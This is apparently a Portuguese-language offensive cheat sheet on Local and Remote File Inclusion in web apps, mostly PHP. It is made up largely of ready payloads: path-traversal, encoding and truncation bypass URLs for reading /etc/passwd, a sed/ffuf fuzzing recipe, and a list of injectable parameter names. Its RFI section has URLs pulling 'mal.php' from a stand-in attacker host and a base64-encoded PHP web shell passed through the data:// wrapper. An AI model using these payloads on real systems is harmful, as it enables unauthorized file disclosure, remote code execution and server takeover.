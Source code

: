 ## LFI 
<p>A vulnerabilidade de Local File Inclusion (LFI) surge da utilização insegura de parâmetros HTTP para controle de conteúdo em aplicações web, prática comum em linguagens como PHP, Node.js e Java. Frameworks frequentemente usam templates para incluir dinamicamente conteúdos com base em parâmetros da URL, como em chamadas do tipo /index.php?page=about. Quando esses parâmetros são passados diretamente para funções como include() sem validação, atacantes podem explorar essa falha para incluir arquivos locais sensíveis, como /etc/passwd ou arquivos de configuração. Essa exposição pode revelar código-fonte e credenciais, facilitando ataques mais graves como SQL Injection ou escalonamento de privilégios. Em ambientes mal configurados, LFI pode evoluir para execução remota de código, comprometendo completamente o servidor e possibilitando movimentação lateral e persistência.</p>

## RFI
<p>Quando uma função vulnerável nos permite incluir arquivos remotos, podemos hospedar um script malicioso e incluí-lo na página vulnerável para executar funções maliciosas e obter execução remota de código. No PHP é necessário que o parâmetro allow_url_include esteja habilitado, o padrão é estar desabilitado. </p>

:fries: Checklist
- observe os campos das requisições em todos os métodos HTTP
- observe nos campos das requisições o tipo de informação usada 
- observe como a informação transmitida nos campos é processada
- observe funções de upload
- modifique o valor de um campo na requisição e observe como a aplicação responde
- adicione no campo payloads de LFI
- adicione no campo url para validar RFI
- crie um arquivo com código executável e faça o upload na aplicação
- procure acessar o arquivo para executar o código 

#### LFI Básico
```
http://example.com/index.php?page=../../../etc/passwd
http://example.com/index.php?page=....//....//....//etc/passwd
http://example.com/index.php?page=....\/....\/....\/etc/passwd
http://some.domain.com/static/%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c/etc/passwd

```

#### Null Byte (%00)
```http://example.com/index.php?page=../../../etc/passwd%00```

#### Encoding
```
http://example.com/index.php?page=..%252f..%252f..%252fetc%252fpasswd
http://example.com/index.php?page=..%c0%af..%c0%af..%c0%afetc%c0%afpasswd
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd%00
```

#### LFI a partir de diretórios existentes
```
http://example.com/index.php?page=utils/scripts/../../../../../etc/passwd
```

#### Deep
- depth of 3
```
http://example.com/index.php?page=../../../etc/passwd # depth of 3
```
- depth of 4
```
http://example.com/index.php?page=private/../../../../etc/passwd # we went deeper down one level, so we have to go 3+1=4 levels up to go back to /etc/passwd
```

### Gerar wordlist de LFI a partir de uma wordlist existente
```
# 1
sed 's_^_../../../var/www/_g' /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt | sed 's_$_/../../../etc/passwd_g' > payloads.txt

# 2
ffuf -u http://example.com/index.php?page=FUZZ -w payloads.txt -mr "root"
```

#### Path Trucation
```
In PHP: /etc/passwd = /etc//passwd = /etc/./passwd = /etc/passwd/ = /etc/passwd/.
Check if last 6 chars are passwd --> passwd/
Check if last 4 chars are ".php" --> shellcode.php/.
```
```
http://example.com/index.php?page=a/../../../../../../../../../etc/passwd..\.\.\.\.\.\.\.\.\.\.\[ADD MORE]\.\.
http://example.com/index.php?page=a/../../../../../../../../../etc/passwd/././.[ADD MORE]/././.

#With the next options, by trial and error, you have to discover how many "../" are needed to delete the appended string but not "/etc/passwd" (near 2027)
# | Sempre testar adicionando um diretório falso a/ Essa vulnerabilidade foi corrigida no PHP 5.3

http://example.com/index.php?page=a/./.[ADD MORE]/etc/passwd
http://example.com/index.php?page=a/../../../../[ADD MORE]../../../../../etc/passwd
```

#### Filter Bypass
```
http://example.com/index.php?page=....//....//etc/passwd
http://example.com/index.php?page=..///////..////..//////etc/passwd
http://example.com/index.php?page=/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd
Maintain the initial path: http://example.com/index.php?page=/var/www/../../etc/passwd
http://example.com/index.php?page=PhP://filter
```

### RFI
```
http://example.com/index.php?page=http://atacker.com/mal.php
http://example.com/index.php?page=\\attacker.com\shared\mal.php
```
<p>Se por algum motivo allow_url_include estiver ativado, mas o PHP estiver filtrando o acesso a páginas externas, você pode usar, por exemplo, o wrapper data com base64 para decodificar um código PHP base64 e egt RCE:</p>
[Ref.:] (https://matan-h.com/one-lfi-bypass-to-rule-them-all-using-base64/)

```
PHP://filter/convert.base64-decode/resource=data://plain/text,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+.txt

data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+txt
```

### Parâmetro para testar LFI
```
?cat={payload}
?dir={payload}
?action={payload}
?board={payload}
?date={payload}
?detail={payload}
?file={payload}
?download={payload}
?path={payload}
?folder={payload}
?prefix={payload}
?include={payload}
?page={payload}
?inc={payload}
?locate={payload}
?show={payload}
?doc={payload}
?site={payload}
?type={payload}
?view={payload}
?content={payload}
?document={payload}
?layout={payload}
?mod={payload}
?conf={payload}
```
